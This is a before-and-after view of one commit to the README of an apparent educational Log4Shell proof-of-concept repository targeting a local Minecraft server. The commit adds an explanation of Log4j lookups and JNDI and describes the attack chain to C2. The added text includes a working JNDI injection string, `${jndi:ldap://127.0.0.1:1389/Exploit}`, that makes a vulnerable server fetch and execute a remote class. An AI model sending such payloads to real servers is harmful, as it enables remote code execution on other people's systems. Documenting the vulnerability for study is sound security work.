

Before and after one commit to newmie10/564Capstone, a Markdown page: README.md, the part around the change. Shown at 97% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Correct Minecraft version and enhance README content
Updated Minecraft version in README and added attack diagram.

````diff
--- a/README.md
+++ b/README.md
@@ -1,4 +1,4 @@
-# Log4Shell (CVE-2021-44228) PoC — Minecraft 1.17.1 on Ubuntu Linux
+# Log4Shell (CVE-2021-44228) PoC — Minecraft 1.17 on Ubuntu Linux
 
 > **For authorized security research and educational purposes only. Run entirely on a local VM.**
 
@@ -8,11 +8,32 @@
 
 Log4Shell abuses Log4j's JNDI lookup feature. When Minecraft logs a chat message containing `${jndi:ldap://...}`, Log4j 2.14.1 processes it, reaches out to your LDAP server (marshalsec), which redirects it to your HTTP server hosting a malicious Java class. That class executes on the Minecraft server JVM.
 
+![Attack Diagram](Log4Shell.png)
+
+
 **Attack chain:**
 ```
 Minecraft chat input → Log4j 2.14.1 JNDI lookup → marshalsec LDAP server
   → Python HTTP server → Exploit.class fetched → RCE on server
 ```
+## A Deeper Dive
+
+CVE-2021-44228, seen at https://nvd.nist.gov/vuln/detail/CVE-2021-44228 is a **10.0 Critical** vulnerability discovered in the widely-used **Log4J** Java logging library. This library was used across numerous high-profile Java projects, notably in this case, Minecraft versions 1.7 to 1.18 (https://www.minecraft.net/en-us/article/important-message--security-vulnerability-java-edition). 8 years!
+
+This vulnerability was uncovered in 2021, and developers scrambled to quickly secure their applications. There are two inherent reasons that the vulnerability existed.
+
+The first is a Log4J feature called **Lookups**. This feature allows logs to be enriched by enclosing platform-specific info in the logs, like `${java.os}` to the OS version.
+
+This combined with another 'feature', the ability to **query remote JNDI (Java Naming and Directory) servers** to fetch unknown classes. Input sanitization was not used for these logs, and a payload like:
+```
+${jndi:ldap://127.0.0.1:1389/Exploit}
+```
+
+would be interpreted by Log4J and reach out to the remote server, grab the implant class, and execute it on the host machine.
+
+In Minecraft's case, custom Java edition servers run by players were highly vulnerable, and could be triggered by simply entering the payload in a chat message.
+
+In this repository, we walk through the necessary steps to execute the entire kill chain, from setup to implant and C2, and show just how devastating the Log4Shell exploit was and still continues to be.
 
 ---
 
````
